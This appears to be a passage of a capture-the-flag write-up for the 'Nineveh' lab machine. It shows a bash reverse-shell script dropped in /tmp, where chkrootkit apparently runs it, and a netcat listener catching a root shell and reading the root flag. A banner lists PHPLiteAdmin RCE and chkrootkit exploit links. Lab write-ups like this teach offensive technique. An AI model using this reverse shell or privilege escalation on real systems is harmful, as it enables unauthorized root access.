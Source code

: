    amrois@nineveh:/tmp$ cat update
    #!/bin/bash
    bash -i >& /dev/tcp/10.10.14.10/4444 0>&1

   amrois@nineveh:/tmp$ chmod +x update

   [root:~]# nc -lvnp 4444
     listening on [any] 4444 ...
     connect to [10.10.14.10] from (UNKNOWN) [10.10.10.43] 40310
     bash: cannot set terminal process group (20042): Inappropriate ioctl for device
     bash: no job control in this shell
     root@nineveh:~# whoami
      root
     root@nineveh:~# cat /root/root.txt
       f1b9f3a15a4cf8f89d9285e948b66432



██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██╗███╗   ██╗███████╗ ██████╗ ██████╗ ███╗   ███╗ █████╗ ████████╗██╗ ██████╗ ███╗   ██╗
   ██║████╗  ██║██╔════╝██╔═══██╗██╔══██╗████╗ ████║██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║
   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██╔████╔██║███████║   ██║   ██║██║   ██║██╔██╗ ██║
   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║╚██╔╝██║██╔══██║   ██║   ██║██║   ██║██║╚██╗██║
   ██║██║ ╚████║██║     ╚██████╔╝██║  ██║██║ ╚═╝ ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║
   ╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝

PHPLiteAdmin 1.9 RCE:
  https://www.exploit-db.com/exploits/24044
  https://v3ded.github.io/ctf/zico2

Chkrootkit privesc:
  https://www.exploit-db.com/exploits/33899
